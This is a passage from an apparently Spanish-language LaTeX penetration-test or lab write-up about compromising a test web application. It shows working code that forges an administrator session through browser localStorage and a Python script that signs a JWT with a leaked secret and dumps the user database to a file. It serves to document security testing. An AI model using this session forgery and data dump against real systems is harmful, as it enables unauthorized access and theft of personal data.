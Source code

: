 \section[Compromiso del Sistema y Flag]{Compromiso del sistema y obtención de la Flag (shell SYSTEM o exfiltración de BD)}
\label{sec:compromiso_sistema}
Una vez comprometido el sistema, se cumplieron los siguientes objetivos de evaluación que vulneraban de forma crítica el SLA del entorno:
\begin{itemize}
    \item \textbf{Sobrescritura Visual Inyectada (UI Domain Hijacking)}: Se suplantó una sesión válida manipulando los valores del almacenamiento local: \newline \texttt{localStorage.setItem('authToken', ...)} del navegador para acceder a la interfaz administrativa de la aplicación (SPA) adquiriendo los privilegios del perfil "Administrator" (\texttt{ice\_tea}).

\begin{lstlisting}
localStorage.setItem('authToken', '[FORGED_JWT]');
localStorage.setItem('user', JSON.stringify({
    id: 1, 
    username: 'ice_tea', 
    role: 'Admin', 
    fullName: 'Administrator', 
    email: 'icecube@securewebapp.local'
}));
\end{lstlisting}

    \item \textbf{Data Breach Masivo por Descarga (\texttt{dump\_db.py})}: Mediante la automatización de peticiones HTTP (\textit{script} programado bajo Python) empleando cabeceras de autorización forjadas, se procedió a extraer el volcado completo de la base de datos de usuarios de la API sin generar alertas evidentes en el agente \texttt{Sysmon}. Esta acción supuso una vulneración total de la confidencialidad de los datos albergados en el sistema objetivo.

\begin{lstlisting}
# Script de exfiltración final (Python)
import jwt, requests, urllib3, json

payload = {"sub": "1", "name": "admin", "role": "Admin", 
           "iss": "SecureWebApp", "aud": "SecureWebAppClient", "exp": 1775327944}
token = jwt.encode(payload, "CWgLnSB5JKpgba6BWyzwV8Uf+qDpErvjMPfpv9vIifg=", algorithm="HS256")
headers = {"Authorization": f"Bearer {token}"}

response = requests.get("https://192.168.56.137/backend/api/users", headers=headers, verify=False)
with open("exfiltrated_data.json", "w") as f:
    json.dump(response.json(), f, indent=2)
\end{lstlisting}
\end{itemize}
